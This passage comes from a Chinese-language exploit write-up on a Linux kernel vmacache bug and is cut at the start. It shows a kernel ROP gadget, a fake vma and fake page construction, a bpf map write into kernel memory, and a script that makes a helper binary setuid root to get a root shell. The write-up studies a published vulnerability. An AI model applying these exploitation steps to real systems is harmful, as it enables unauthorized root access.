 ```
.rb = `{`
            .__rb_parent_color = eventfd_fops-0xd9ebd6
        `}`
```

我们放上来另一个内核rop

```
ffffffff810a4aaa: 48 89 fb              mov rbx,rdi
ffffffff810a4aad: 48 8b 43 20           mov rax,QWORD PTR [rbx+0x20]
ffffffff810a4ab1: 48 8b 7f 28           mov rdi,QWORD PTR [rdi+0x28]
ffffffff810a4ab5: e8 46 e5 b5 00        call  ffffffff81c03000&lt;__x86_indirect_thunk_rax&gt;
```

这里我们将call vma+0x20,参数是vma+0x28,我们已经在结构中伪造了将vma+0x20是run_cmd,vma+0x28也就是vm_rb.rb_left的值是”/tmp/%1”<br>
而这里面我们早就写入了

```
char *suid_tmpl = "#!/bin/shn"
              "chown root:root ./suidhelpern"
              "chmod 04755 ./suidhelpern"
              "while true; do sleep 1337; donen";
```

这样直接给suidhelper以root权限。

之后我们伪造一个fake page，offset的值是

```
if (offset + sizeof(fake_vma) &lt;= 0x1000) `{`
    memcpy(fake_vma_page + offset, &amp;fake_vma, sizeof(fake_vma));
`}` else `{`
    size_t chunk_len = 0x1000 - offset;
    memcpy(fake_vma_page + offset, &amp;fake_vma, chunk_len);
    memcpy(fake_vma_page, (char*)&amp;fake_vma + chunk_len, sizeof(fake_vma) - chunk_len);
`}`
```

offset的值我们通过

```
long offset = (vma_kaddr - 0x90/*compensate for BPF map header*/) &amp; 0xfff;
```

得倒，因为我们要的是在这个页中的偏移位置，所以需要 &amp;0xfff就是在这个页的偏移量。但是还需要减去0x90 bpf map header，因为bpf update的时候会自动加上偏移量。

这样我们需要的东西已经全部准备好，直接通过

```
bpf_(BPF_MAP_UPDATE_ELEM, &amp;update_attr)
```

将伪造好的页写入到内核，即可将我们在vmacache中的vma覆盖掉。之后通过触发缺页异常去执行vm_ops-&gt;的fault，从而实现整个rop chain 的利用。之后我们的主进程虽然会崩溃掉，但是我们已经以root权限打开了新的可执行文件sulidhelper，在其中弹出一个shell，实现了内核态的提权。



## 参考链接

[https://googleprojectzero.blogspot.com/2018/09/a-cache-invalidation-bug-in-linux.html](https://googleprojectzero.blogspot.com/2018/09/a-cache-invalidation-bug-in-linux.html)
